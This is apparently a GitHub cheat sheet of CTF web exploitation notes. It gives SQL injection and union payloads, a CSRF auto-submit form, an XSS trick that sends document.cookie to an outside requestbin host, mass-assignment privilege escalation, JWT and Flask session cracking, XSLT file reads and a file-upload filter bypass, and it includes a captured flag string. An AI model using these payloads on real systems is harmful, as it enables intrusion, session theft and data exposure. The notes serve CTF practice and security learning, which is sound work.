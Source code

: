 [BACK](../README.md)
# Web

- Inspect HTML
- Inspect JS
- Inspect Debug tab
- Inspect CSS
- Search for /robots.txt
  - Needs to be at the root of the website
- If the server is apache, try /.htaccess
- If MacOS: try /.DS_Store
- humans.txt
- Change user agent
- Try every verb
- Check cookie
  - try to modify it
When prompted for a password:

- Try switching request to put or post

## SQL Injection

```sql
' OR 1 = 1 UNION SELECT 1
```
If error:
- Try adding a limit to the amount of Rows
- Try adding more columns

### sqlite3:
get tables:
```sql
' UNION SELECT name, type FROM sqlite_master WHERE type='table'--
```
pwn.college{0z9pflHec7Z--_UnAMj7p6qmMMV.dNzN1YDLyQTM5QzW}
#### If () are blocked:  
```javascript
 `${console.log`test`}`
 //instead of
 console.log("test")
 ```
## API
- Check OPTIONS verb
- Try every verb
- Check openAPI/SwaggerUI endpoint
- Try passing more fields in an "update" endpoint

ex: If the user object is this: 
```json
{
    "username":"username",
    "status":"user"
}
```
and the update endpoint asks for this:
```json
{
    "username":"username"
}
```
Pass this:
```json
{
    "username":"username",
    "status":"admin"
}
```

## Path Traversal

Useful to check:
- admin.php
- login.php
- Add ~ at the end of the php files
    - Vim backup files are stored with the file name + ~
- /etc/apache2/sites-enabled/000-default or /etc/apache2/sites-available/default
## XSS

To try to intercept requests from the page:

https://requestbin.myworkato.com/

Can add link to img src, or change window.location to this and add "?flag=" + document.cookie

### Different Angular XSS payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md
    
## JWT

- https://jwt.io/
- https://github.com/lmammino/jwt-cracker
  - Needed for `crackjwt.sh`
```bash
crackjwt.sh [jwtToken]
```

For RSA signed tokens:

- Burpsuite JWT Editor extension
  - Create a RSA key
  - In the repeater on the request sent with the cookie
  - "Attack" button -> Embedded JWK


## Flask/Python web

if urllib.parse used with urlsplit:
- add `a:` in front of the scheme to break the split (scheme returned in the url)
- add a `?` after the scheme to break (url returned in query)
- same with `#` to return everthing in fragment 

### Flask session token:
- https://github.com/Paradoxis/Flask-Unsign
  - Needed for `crack_flask_token.sh` and `edit_flask_token.sh`
- https://www.kirsle.net/wizards/flask-session.cgi

```bash
crack_flask_token.sh [token]
```

```bash
edit_flask_token.sh [payload] [secret]
```

## CSRF

To recognize:

- Only protection is a Session cookie
- no headers with "CSRF"

Payload example:
```html
<iframe style="display:none" name="csrf-frame"></iframe>
    <form  id="csrf-form" target="csrf-frame" action="[LINK]" method="[METHOD]" enctype="[ENCODING_TYPE]">
      <input type="text" name="[FIELD_NAME]" value="[WANTED_VALUE]" />
      <input type="submit" value="Submit" />
    </form>
<script>document.getElementById("csrf-form").submit()</script>
```

https://security.love/CSRF-PoC-Genorator/

- If there is a CSRF token sent with the request:
  - Try removing it
  - Try switching one char
  - Try switching it with one from another request

## XSLT

https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20XSLT%20Processing%20Security%20and%20Server%20Side%20Request%20Forgeries%20-%20OWASP%20Switzerland%20Meeting%202015.pdf
Read file:
- document('[FILE_NAME]') (XSLT 1.0)
- unparsed_text('[FILE_NAME]') (XSLT 2.0)
- php:function('file_get_contents','[FILE_NAME]')
- php:function('opendir','[DIR]') -> php:function('readdir') * amount of files toread

## Mock Server/API:
https://beeceptor.com/

## File uplaod 
https://book.hacktricks.xyz/pentesting-web/file-upload
- Addd a %0a to the name of the file between the .png and .php
  - ex: test.png%0a.php

## Swagger endpoints:
- /swagger-ui/index.html
- /swagger
- /swagger-ui
- /docs
- /redoc
- /openapi.json